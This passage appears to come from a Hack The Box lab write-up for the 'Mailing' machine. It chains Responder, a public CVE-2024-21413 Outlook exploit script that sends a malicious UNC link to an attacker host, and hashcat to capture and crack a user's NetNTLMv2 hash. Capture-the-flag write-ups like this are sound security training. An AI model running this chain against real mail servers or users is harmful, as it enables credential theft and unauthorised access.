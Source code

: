 Let's fire up responder

```bash
sudo responder -i eth0
```

Now git clone the CVE repo (after confirming the script of course)

```bash
git clone https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability/blob/main/CVE-2024-21413.py
```


Now let's run the script!

```bash
python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url "\\10.10.14.36/pwned" --subject "Pwned"
```

![Maya Hash](/assets/images/HTB%20-%20Mailing/maya%20hash.png)

Maya's hash has been obtained. Let's put in in a file & try to crack it via hashcat

```bash
hashcat -m 5600 maya_hash.txt /path/to/rockyou.txt
```

